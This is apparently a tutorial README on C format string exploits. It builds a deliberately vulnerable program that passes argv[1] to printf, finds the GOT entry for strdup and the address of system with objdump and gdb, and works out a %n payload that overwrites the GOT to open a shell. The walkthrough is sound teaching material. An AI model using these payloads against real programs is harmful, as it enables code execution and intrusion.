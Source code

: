 ###Overview
This code demonstrates format string exploits. These vulnerabilities occur when a function that takes string 
formats as inputs like `printf()` is exposed to user input. Mentally, I think of this as the C equivalent of 
SQL injection.  

This guide is based off of [this website](http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html) More in depth explanation is provided there

`printf()` can take any number of inputs, the only way it knows how many to expect is by looking at the format string it is passed.
`printf(%p %d %i)` expects three arguments. If three arguments are not given, it will grab the next three address off of the stack
and use those as arguements.

Using the `%n` formatter we can write values to memory addresses. This formatter does the following: `
> The number of characters written so far is stored into the integer indicated by the int * (or variant) pointer argument. No argument is converted.  


###Process
Using this information we are going to try to open a system shell by exploiting this code:
```
#include <stdio.h>
#include <string.h>
// compile with gcc -m32 temp.c

int main(int argc, char** argv) {
  printf(argv[1]);
  strdup(argv[1]);
}
```

To do this we must:
- Find the memory address for `strdup()`
- Find the memory address for `system` (The shell)
- Overwrite the Global Offset Table entry for `strdup()` with the memory address for `system`

####Find the memory address for `strdup()`
- Compile the program `gcc test.c -m32`
- view the compiled object `objdump -d a.out`
- You should see in the output a section with `<strdup@plt>` with a jmp command. the memory address to the right is the memory address of this function.
- Write this down. On my computer it is  `0x804a010`

####Find the memory address for `system`
- We must first disable libc randomization so that `system` is always at a deterministic location in memory.
- Run the command `ulimit -s unlimited` to disable libc randomization
- We can find the location using the debugging tool gdb. Below is the sample terminal output from doing so:
```
gdb -q a.out
Reading symbols from /home/osboxes/a.out...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048450
(gdb) r
Starting program: /home/osboxes/a.out 

Breakpoint 1, 0x08048450 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0x555d1e70 <system>
```
We now know that the location of system is `0x555d1e70`. This means we need to write `0x555d1e70` to `0x804a010` which is the location of `strdup` in the Global Offset Table

####Overwrite the Global Offset Table entry for `strdup()` with the memory address for `system`

`printf()` can take any number of inputs, the only way it knows how many to expect is by looking at the format string it is passed.
`printf(%p %d %i)` expects three arguments. If three arguments are not given, it will grab the next three addresses off of the stack
and use those as arguements.

Using the `%n` formatter we can write values to memory addresses. This formatter does the following: `
> The number of characters written so far is stored into the integer indicated by the int * (or variant) pointer argument. No argument is converted.  

If we succeed in overwriting `strdup` with `system` our program will call system with `argv[1]` so the string that we pass into printf must also be a valid system arguement. Our payload will begin with `sh#` so that everything after it will be commented out and we will open a shell process.  

Using the format of our paylaod string as `<address><address+2>%<number1>x%<offset>$hn%<number2>x%<offset+1>$hn` We can write the value of number1 to address and the value of number2 to address+2. The goal of the offset value is to determine what position in the stack the arguements number1 and number2 are located at. This takes adventage of the `x$` formatter which will select the xth arguement to `printf`. 

#####Finding offset value
The offset values are very sensitive to the lenght of the string changing so we will use a string that is the same length as the final string we wish to use. `"$(python -c 'import sys; sys.stdout.write("sh;#AAAABBBB%00000x%17$hp%00000x%18$hp")')"` sending this string into our program this will display `sh;#AAAABBBB<garbabe>arg17<garbage>arg18`. We need to change 17 and 18 until the values `0x41414141` and '0x42424242` are displayed. This will mean that we know what argument the 5th through 8th byte and 9th through 12th byte of the string are, and can select them to be written to in the future.  

On my machine the proper offsets are 99 and 100.

#####Final Command
Running the command  `//env -i ./a.out "$(python -c 'import sys;sys.stdout.write("sh;#\x10\xa0\x04\x08\x12\xa0\x04\x08%07780x%99$hn%14061x%100$hn")')"` will successfully open up a new shell from this process. 

